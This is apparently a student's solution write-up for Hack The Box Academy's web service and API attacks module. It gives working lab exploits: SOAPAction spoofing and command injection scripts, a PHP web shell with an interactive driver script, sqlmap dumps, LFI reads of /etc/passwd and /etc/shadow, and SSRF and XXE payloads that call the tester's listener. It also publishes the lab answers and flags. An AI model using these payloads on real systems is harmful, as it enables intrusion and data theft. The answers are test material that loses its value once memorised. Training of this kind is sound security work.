

# [Web Service & API Attacks](https://academy.hackthebox.com/module/details/160)

## Web Services Description Language (WSDL)

### Questions

#### Question #01

**Question**

If you should think of the operation object in WSDL as a programming concept, which of the following is closer in terms of the provided functionality? Answer options (without quotation marks): "Data Structure", "Method", "Class".

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ dirb http://10.129.202.133:3002

[SNIP]

+ http://10.129.202.133:3002/wsdl (CODE:200|SIZE:0)  
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ curl http://10.129.202.133:3002/wsdl

❌
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'http://10.129.202.133:3002/wsdl?FUZZ' -fs 0 -mc 200 -t 100

[SNIP]

WSDL                    [Status: 200, Size: 4461, Words: 967, Lines: 186, Duration: 11ms]
wsdl                    [Status: 200, Size: 4461, Words: 967, Lines: 186, Duration: 12ms]
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ curl http://10.129.202.133:3002/wsdl?wsdl

[SNIP]

<?xml version="1.0" encoding="UTF-8"?>
<wsdl:definitions targetNamespace="http://tempuri.org/" 
  xmlns:s="http://www.w3.org/2001/XMLSchema" 
  xmlns:soap12="http://schemas.xmlsoap.org/wsdl/soap12/" 
  xmlns:http="http://schemas.xmlsoap.org/wsdl/http/" 
  xmlns:mime="http://schemas.xmlsoap.org/wsdl/mime/" 
  xmlns:tns="http://tempuri.org/" 
  xmlns:soap="http://schemas.xmlsoap.org/wsdl/soap/" 
  xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/" 
  xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/" 
  xmlns:wsdl="http://schemas.xmlsoap.org/wsdl/">
  
  <wsdl:types>
    <s:schema elementFormDefault="qualified" targetNamespace="http://tempuri.org/">
      <s:element name="LoginRequest">
        <s:complexType>
          <s:sequence>
            <s:element minOccurs="1" maxOccurs="1" name="username" type="s:string"/>
            <s:element minOccurs="1" maxOccurs="1" name="password" type="s:string"/>
          </s:sequence>
        </s:complexType>
      </s:element>
      <s:element name="LoginResponse">

[SNIP]
```

**Answer**

```
Method
```

## SOAPAction Spoofing

### Questions

#### Question #02

**Question**

Exploit the SOAPAction spoofing vulnerability and submit the architecture of the web server as your answer. Answer options (without quotation marks): "x86_64", "x86".

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ curl http://10.129.202.133:3002/wsdl?wsdl

[SNIP]

  <wsdl:types>
	
    <s:schema elementFormDefault="qualified" targetNamespace="http://tempuri.org/">
	
      <s:element name="LoginRequest">
        <s:complexType>
          <s:sequence>
            <s:element minOccurs="1" maxOccurs="1" name="username" type="s:string"/>
            <s:element minOccurs="1" maxOccurs="1" name="password" type="s:string"/>
          </s:sequence>
        </s:complexType>
      </s:element>
	
[SNIP]
	
      <s:element name="ExecuteCommandRequest">
        <s:complexType>
          <s:sequence>
            <s:element minOccurs="1" maxOccurs="1" name="cmd" type="s:string"/>
          </s:sequence>
        </s:complexType>
      </s:element>
	
    </s:schema>
	
  </wsdl:types>

[SNIP]

  <wsdl:binding name="HacktheboxServiceSoapBinding" type="tns:HacktheBoxSoapPort">
	
    <soap:binding transport="http://schemas.xmlsoap.org/soap/http"/>
	
    <!-- SOAP ExecuteCommand Action -->
    <wsdl:operation name="ExecuteCommand">
      <soap:operation soapAction="ExecuteCommand" style="document"/>
      <wsdl:input>
        <soap:body use="literal"/>
      </wsdl:input>
      <wsdl:output>
        <soap:body use="literal"/>
      </wsdl:output>
    </wsdl:operation>

  </wsdl:binding>

[SNIP]
```

```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></ExecuteCommandRequest></soap:Body></soap:Envelope>'

print(requests.post("http://10.129.202.133:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ python3 client.py

b'<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">
<soap:Body>
<ExecuteCommandResponse xmlns="http://tempuri.org/">
<success>false</success>
<error>This function is only allowed in internal networks</error>
</ExecuteCommandResponse>
</soap:Body>
</soap:Envelope>'
❌
```

```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></LoginRequest></soap:Body></soap:Envelope>'

print(requests.post("http://10.129.202.133:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ python3 client_soapaction_spoofing.py

b'<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">
<soap:Body>
<LoginResponse xmlns="http://tempuri.org/">
<success>true</success>
<result>root\n</result>
</LoginResponse>
</soap:Body>
</soap:Envelope>'
```

```python
import requests

while True:
    cmd = input("$ ")
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
    print(requests.post("http://10.129.181.45:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ python3 automate.py

$ whoami
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginResponse xmlns="http://tempuri.org/"><success>true</success><result>root\n</result></LoginResponse></soap:Body></soap:Envelope>'

$ uname -m
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginResponse xmlns="http://tempuri.org/"><success>true</success><result>x86_64\n</result></LoginResponse></soap:Body></soap:Envelope>'
```

**Answer**

```
x86_64
```

## Command Injection

### Questions

#### Question #03

**Question**

Exploit the command injection vulnerability of the target to execute an "id" command. Submit the privileges under which the server is running as your answer. Answer options (without quotation marks): "user", "www-data", "root".

```php
<?php
function ping($host_url_ip, $packets) {
        if (!in_array($packets, array(1, 2, 3, 4))) {
                die('Only 1-4 packets!');
        }
        $cmd = "ping -c" . $packets . " " . escapeshellarg($host_url_ip);
        $delimiter = "\n" . str_repeat('-', 50) . "\n";
        echo $delimiter . implode($delimiter, array("Command:", $cmd, "Returned:", shell_exec($cmd)));
}

if ($_SERVER['REQUEST_METHOD'] === 'GET') {
        $prt = explode('/', $_SERVER['PATH_INFO']);
        call_user_func_array($prt[1], array_slice($prt, 2));
}
?>
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-wenhtohcao]─[~]
└──╼ [★]$ sudo tcpdump -i tun0 icmp

listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
05:13:28.657096 IP htb-wenhtohcao > 10.10.14.1: ICMP echo request, id 23057, seq 1, length 64
05:13:28.666474 IP 10.10.14.1 > htb-wenhtohcao: ICMP echo reply, id 23057, seq 1, length 64
05:13:29.653274 IP htb-wenhtohcao > 10.10.14.1: ICMP echo request, id 23083, seq 1, length 64
05:13:29.660183 IP 10.10.14.1 > htb-wenhtohcao: ICMP echo reply, id 23083, seq 1, length 64
05:13:30.652346 IP htb-wenhtohcao > 10.10.14.1: ICMP echo request, id 23111, seq 1, length 64
05:13:30.659231 IP 10.10.14.1 > htb-wenhtohcao: ICMP echo reply, id 23111, seq 1, length 64

[SNIP]
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-wenhtohcao]─[~]
└──╼ [★]$ curl http://10.129.181.45:3003/ping-server.php/system/ls

index.php
ping-server.php

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-wenhtohcao]─[~]
└──╼ [★]$ curl http://10.129.181.45:3003/ping-server.php/system/whoami

root
```

**Answer**

```
root
```

#### Question #04

**Question**

To execute commands featuring arguments via `http://<TARGET IP>:3003/ping-server.php/system/{cmd}` you may have to use ______. Answer options (without quotation marks): "Encryption", "Hashing", "URL Encoding".

**Answer**

```
URL Encoding
```

## Information Disclosure (with a twist of SQLi)

### Questions

#### Question #05

**Question**

What is the username of the third user (`id=3`)?
 
```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://10.129.202.133:3003/?FUZZ=value' -t 100 -fs 19

[SNIP]

id                      [Status: 200, Size: 38, Words: 7, Lines: 1, Duration: 33ms]

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ curl -s http://10.129.202.133:3003/?id=3 | jq

[
  {
    "id": "3",
    "username": "WebServices",
    "position": "3"
  }
]
```

**Answer**

```
WebServices
```

#### Question #06

**Question**

Identify the username of the user that has a position of `736373` through SQLi. Submit it as your answer.
 
```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ sqlmap 'http://10.129.202.133:3003/?id=1*' --batch --dump --no-cast

[SNIP]

Database: htb
Table: users
[4 entries]
+---------+--------------------------------+------------+
| id      | username                       | position   |
+---------+--------------------------------+------------+
| 1       | admin                          | 1          |
| 2       | HTB-User-John                  | 2          |
| 3       | WebServices                    | 3          |
| 8374932 | HTB{THE_FL4G_FOR_SQLI_IS_H3RE} | 736373     |
+---------+--------------------------------+------------+
```

**Answer**

```
HTB{THE_FL4G_FOR_SQLI_IS_H3RE}
```

## Arbitrary File Upload

#### Question #07

**Question**

Achieve remote code execution and submit the server's hostname as your answer.


```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ vim backdoor.php

<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>
```


```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ curl http://10.129.202.133:3001/uploads/backdoor.php?cmd=id

uid=0(root) gid=0(root) groups=0(root)

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ curl http://10.129.202.133:3001/uploads/backdoor.php?cmd=hostname

nix01-websvc
```

```python
import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)
parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description
parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true
parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above
parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above
args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example.
if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
    parser.print_help() # shows help menu
elif args.target and args.payload: # elif (if they both have values do some action)
    print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
    os.system("clear") # clear the screen (linux)
    while True: # starts a while loop (never ending loop)
        try: # try statement
            cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter
            print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value
            time.sleep(0.3) # waits 0.3 seconds during each request
        except requests.exceptions.InvalidSchema: # error handling
            print("Invalid URL Schema: http:// or https://")
        except requests.exceptions.ConnectionError: # error handling
            print("URL is invalid")
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ python3 web_shell.py -t http://10.129.202.133:3001/uploads/backdoor.php -o yes

$ whoami
root

$ hostname
nix01-websvc
```

**Answer**

```
nix01-websvc
```

## Local File Inclusion

### Questions

#### Question #08

**Question**

Through the LFI vulnerability identify an existing user on the server whose name starts with "ub". Answer format: "ub****".

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ ffuf -w /usr/share/seclists/Discovery/Web-Content/common-api-endpoints-mazen160.txt -u 'http://10.129.202.133:3000/api/FUZZ' -t 100

[SNIP]

download                [Status: 200, Size: 71, Words: 5, Lines: 1, Duration: 39ms]
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ curl -s http://10.129.202.133:3000/api/download | jq

{
  "success": false,
  "error": "Input the filename via /download/<filename>"
}

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://10.129.202.133:3000/api/download/FUZZ' -t 100 -fs 43

[SNIP]

..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd [Status: 200, Size: 1877, Words: 17, Lines: 36, Duration: 18ms]
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fshadow [Status: 200, Size: 1185, Words: 1, Lines: 36, Duration: 20ms]
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ curl http://10.129.202.133:3000/api/download/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd

[SNIP]

usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
ubuntu:x:1000:1000::/home/ubuntu:/bin/bash
```

**Answer**

```
ubuntu
```

## Cross-Site Scripting (XSS)

### Questions

#### Question #09

**Question**

If we URL-encoded our payload twice, would it still work? Answer format: Yes, No.


```javascript
%3Cscript%3Ealert%281%29%3C%2Fscript%3E
```




**Answer**

```
No
```

## Server-Side Request Forgery (SSRF)

### Questions

#### Question #10

Can you leverage the SSRF vulnerability to identify port `3002` listening locally on the web server? Answer format: Yes, No.

**Question**

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ ifconfig tun0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.15.180  netmask 255.255.254.0  destination 10.10.15.180

[SNIP]
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ curl -s 'http://10.129.202.133:3000/api/userinfo' | jq

{
  "success": false,
  "error": "'id' parameter is not given."
}
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ nc -nlvp 1337

listening on [any] 1337 ...

[CONTINUE]
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ curl -s 'http://10.129.202.133:3000/api/userinfo?id=http://10.10.15.180:1337' | jq

{
  "success": false,
  "error": "'id' parameter is invalid."
}
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ echo -n 'http://10.10.15.180:1337' | base64

aHR0cDovLzEwLjEwLjE1LjE4MDoxMzM3

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ curl -s 'http://10.129.202.133:3000/api/userinfo?id=aHR0cDovLzEwLjEwLjE1LjE4MDoxMzM3' | jq
```

```
[CONTINUE]

connect to [10.10.15.180] from (UNKNOWN) [10.129.202.133] 53638
GET / HTTP/1.1
Accept: application/json, text/plain, */*
User-Agent: axios/0.24.0
Host: 10.10.15.180:1337
Connection: close
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ echo -n 'http://localhost:3002' | base64

aHR0cDovL2xvY2FsaG9zdDozMDAy

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ curl -s 'http://10.129.202.133:3000/api/userinfo?id=aHR0cDovL2xvY2FsaG9zdDozMDAy' | jq
```

**Answer**

```
Yes
```

## Regular Expression Denial of Service (ReDoS)

### Questions

#### Question #11

**Question**

There are more than one payload lengths to exploit/trigger the ReDoS vulnerability. Answer format: Yes, No.

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ curl -s 'http://10.129.202.133:3000/api/check-email?email=test' | jq

{
  "regex": "/^([a-zA-Z0-9_.-])+@(([a-zA-Z0-9-])+.)+([a-zA-Z0-9]{2,4})+$/",
  "success": false
}
```


```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ curl -s 'http://10.129.202.133:3000/api/check-email?email=jjjjjjjjjjjjjjjjjjjjjjjjjjjj@ccccccccccccccccccccccccccccc.55555555555555555555555555555555555555555555555555555555.' | jq

[WAIT]

{
  "regex": "/^([a-zA-Z0-9_.-])+@(([a-zA-Z0-9-])+.)+([a-zA-Z0-9]{2,4})+$/",
  "success": false
}
```

**Answer**

```
Yes
```

## XML External Entity (XXE) Injection

### Questions

#### Question #12

**Question**

What URI scheme should you specify inside an entity to retrieve the content of an internal file? Answer options (without quotation marks): "http", "https", "data", "file".

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ ifconfig tun0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.15.180  netmask 255.255.254.0  destination 10.10.15.180

[SNIP]
```


```http
POST /api/login/ HTTP/1.1
Host: 10.129.202.133:3001
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.129.202.133:3001/
Content-Type: text/plain;charset=UTF-8
Content-Length: 107
Origin: http://10.129.202.133:3001
DNT: 1
Connection: keep-alive
Sec-GPC: 1
Priority: u=0

<?xml version="1.0" encoding="UTF-8"?>
<root>
<email>test@mail.com</email>
<password>Test123</password>
</root>
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ nc -nlvp 1337

listening on [any] 1337 ...

[CONTINUE]
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://10.10.15.180:1337"> ]>
<root>
<email>test@mail.com</email>
<password>Test123</password>
</root>
```


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://10.10.15.180:1337"> ]>
<root>
<email>&somename;</email>
<password>Test123</password>
</root>
```


```
[CONTINUE]

connect to [10.10.15.180] from (UNKNOWN) [10.129.202.133] 54048
GET / HTTP/1.0
Host: 10.10.15.180:1337
Connection: close
```

**Answer**

```
file
```

---

## Skills Assessment

Our client tasks us with assessing a SOAP web service whose WSDL file resides at `http://<TARGET IP>:3002/wsdl?wsdl`.

Assess the target, identify an SQL Injection vulnerability through SOAP messages and answer the question below.

### Questions

#### Question #01

**Question**

Submit the password of the user that has a username of `admin`. Answer format: `FLAG{string}`. Please note that the service will respond successfully only after submitting the proper SQLi payload, otherwise it will hang or throw an error.

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-wenhtohcao]─[~]
└──╼ [★]$ curl -s 'http://10.129.181.45:3002/wsdl?wsdl' > wsdl.xml
```


```python
import requests

payload = f'''<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><username>admin' OR password LIKE 'FLAG%' -- - </username><password></password></LoginRequest></soap:Body></soap:Envelope>'''
try:
   response = requests.post("http://10.129.209.121:3002/wsdl", data=payload, headers={"SOAPAction": '"Login"'}, timeout=5)
   print(response.text)
except requests.exceptions.Timeout:
    print("The request timed out.")
except requests.exceptions.RequestException as e:
    print(f"An error occurred: {e}")
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-wenhtohcao]─[~]
└──╼ [★]$ python3 login_attempt.py | xmllint --format -

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">
  <soap:Body>
    <LoginResponse xmlns="http://tempuri.org/">
      <id>0</id>
      <name>Administrator</name>
      <email>admin@htb.net</email>
      <username>admin</username>
      <password>FLAG{1337_SQL_INJECTION_IS_FUN_:)}</password>
    </LoginResponse>
  </soap:Body>
</soap:Envelope>
```

**Answer**

```
FLAG{1337_SQL_INJECTION_IS_FUN_:)}
```

---
---